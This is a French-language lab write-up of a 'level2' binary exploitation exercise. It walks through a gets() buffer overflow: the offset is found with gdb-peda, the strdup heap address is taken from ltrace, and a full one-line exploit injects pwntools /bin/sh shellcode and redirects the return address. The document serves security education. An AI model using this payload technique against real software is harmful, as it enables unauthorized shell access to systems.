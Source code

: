# L3V31 D3UX

- Cet exercice est quasiment identique que le precedent. La fonction gets à une vulnerabilité car elle ne contient pas de  limite de taille.
- On regarde le nombre de caractere qu'il faut ecrire pour pouvoir overwrite la return address.

<pre>
$> gdb ./level2
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')

AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAJAAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EBP: 0x41344141 ('AA4A')
ESP: 0xffffd8a0 ("fAA5AAKAAgAA6AAL")
<strong>EIP: 0x41414a41 ('AJAA')</strong>
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414a41 in ?? ()
gdb-peda$ pattern offset AJAA
<strong>AJAA found at offset: 80</strong>
</pre>
- On recupere l'addresse generer par le strdup qui contiendra notre shellcode
<pre>
$> python -c "print('a' * 75)" | ltrace ./level2
\_\_libc\_start\_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0
fflush(0xb7fd1a20)                                     = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)          = 0xbffff6fc
puts("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"...)            = 76
<strong>strdup("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"...)          = 0x0804a008</strong>
+++ exited (status 8) +++
</pre>

- On genere notre shellcode avec pwntool
```
$> python3 -c "import pwn; print(pwn.asm(pwn.shellcraft.sh()))"
b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
```

- Voici la commande complete
```
((python -c 'print("\x90"*20 + "jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80" + "A"*16 + "\x08\xa0\x04\x08")'); cat) | ./level2
```

```
| Size |      Name      | Data           |
|:----:|:--------------:|----------------|
|      |                | '\90' * 20     |
|  76  |      Stack     | ShellCode (44) |
|      |                | 'a' * 12       |
|------|----------------|----------------|
|   4  |       SFP      | 'a' * 4        |
|------|----------------|----------------|
|   4  | Return Address | Adress strdup  |
|------|----------------|----------------|
```

<table>
<tbody>
<tr>
<td align="center">Size</td>
<td align="center">Name</td>
<td align="center">Data</td>
</tr>
<tr>
<td align="center" rowspan="3">76</td>
<td align="center" rowspan="3">Buffer</td>
<td align="left">'\90' * 20</td>
</tr>
<tr><td align="left">ShellCode (44)</td></tr>
<tr><td align="left">'a' * 12</td></tr>
<tr>
<td align="center">4</td>
<td align="center">SFP</td>
<td align="left">'a' * 4</td>
</tr>
<tr>
<td align="center">4</td>
<td align="center">Return Adress</td>
<td>
<p align="left">Adress strdup</p>
</td>
</tr>
</tbody>
</table>
